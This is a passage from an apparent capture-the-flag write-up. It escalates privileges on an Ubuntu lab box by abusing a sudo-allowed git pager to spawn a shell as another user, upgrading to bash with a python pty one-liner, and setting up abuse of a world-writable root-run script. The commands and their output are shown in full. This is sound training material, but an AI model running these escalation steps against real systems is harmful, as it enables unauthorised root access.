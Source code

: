 ```
sudo -l
Matching Defaults entries for thirtytwo on ubuntu-xenial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User thirtytwo may run the following commands on ubuntu-xenial:
    (d4rckh) NOPASSWD: /usr/bin/git
```

As we found in the note, we can run the `git` command as user `d4rckh` now. So, we can again go to [GTFOBins](https://gtfobins.github.io/) and look for exploit related to `git`.  The one that works from the sudo exploits mentioned there after modification are:

```
sudo -u d4rckh /usr/bin/git -p help config
!/bin/sh
```

We can run these commands as user `thirtytwo` and get access to `d4rckh`'s shell but before that we need to get into a `bash` shell which we get using a python command:

```
python -c 'import pty; pty.spawn("/bin/bash")'
thirtytwo@ubuntu-xenial:~$
```

Now, we can try to run the `git` command as `d4rckh`.

```
thirtytwo@ubuntu-xenial:~$ sudo -u d4rckh git -p help config

WARNING: terminal is not fully functional
		RETURN)!/bin/sh
!/bin/sh
$ whoami

d4rckh
```

We can again get a `bash` shell using the same python command used above for user `d4rckh`. In his directory we can see a python script named `cleanup.py` which can be executed as root. 

```
d4rckh@ubuntu-xenial:/home/d4rckh$ ls -la
total 16
drwxr-xr-x 2 d4rckh d4rckh 4096 Jul  5 21:35 .
drwxr-xr-x 5 root   root   4096 Jul  5 21:45 ..
-rwxrwxrwx 1 root   root      4 Sep 20 12:06 cleanup.py
-rw-r--r-- 1 d4rckh d4rckh   33 Jul  5 21:45 user.txt
```

We can modify the content of this file to run a command to store the root flag in tmp directory. First, we need to creat a blank file in `/tmp` and give access of that file to others as well.

```
d4rckh@ubuntu-xenial:/home/d4rckh$ cd /tmp
d4rckh@ubuntu-xenial:/tmp$ touch key

d4rckh@ubuntu-xenial:/tmp$ chmod 777 key

d4rckh@ubuntu-xenial:/tmp$ ls -la
total 28
drwxrwxrwt  7 root   root   4096 Sep 20 12:10 .
drwxr-xr-x 24 root   root   4096 Sep 20 10:28 ..
drwxrwxrwt  2 root   root   4096 Sep 20 10:27 .ICE-unix
drwxrwxrwt  2 root   root   4096 Sep 20 10:27 .Test-unix
drwxrwxrwt  2 root   root   4096 Sep 20 10:27 .X11-unix
drwxrwxrwt  2 root   root   4096 Sep 20 10:27 .XIM-unix
drwxrwxrwt  2 root   root   4096 Sep 20 10:27 .font-unix
```